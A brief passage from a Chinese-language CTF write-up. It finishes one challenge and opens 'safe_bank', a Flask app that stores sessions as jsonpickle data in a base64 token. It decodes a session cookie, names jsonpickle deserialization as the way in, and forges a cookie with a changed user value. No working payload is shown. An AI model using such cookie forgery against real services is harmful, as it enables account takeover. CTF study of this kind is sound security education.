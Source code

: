 
​	此时就可以愉快读flag了😋

![image-20250729201440244](./assets/image-20250729201440244.png)

# safe_bank

​	题目中描述如下：

```
Python Flask作为Web框架
JSON用于数据交换
使用jsonpickle的高级会话管理
Base64编码用于Token传输
```

​	我们随便注册一个账号拿到cookie如下

```json
eyJweS9vYmplY3QiOiAiX19tYWluX18uU2Vzc2lvbiIsICJtZXRhIjogeyJ1c2VyIjogIjEyMzQiLCAidHMiOiAxNzUzNzkyODQzfX0=

{"py/object": "__main__.Session", "meta": {"user": "1234", "ts": 1753792843}}
```

​	确认方向为jsonpickle反序列化

​	我们修改user的值

```json
{"py/object": "__main__.Session", "meta": {"user": "114514", "ts": 1753792843}}

eyJweS9vYmplY3QiOiAiX19tYWluX18uU2Vzc2lvbiIsICJtZXRhIjogeyJ1c2VyIjogIjExNDUxNCIsICJ0cyI6IDE3NTM3OTI4NDN9fQ==
```
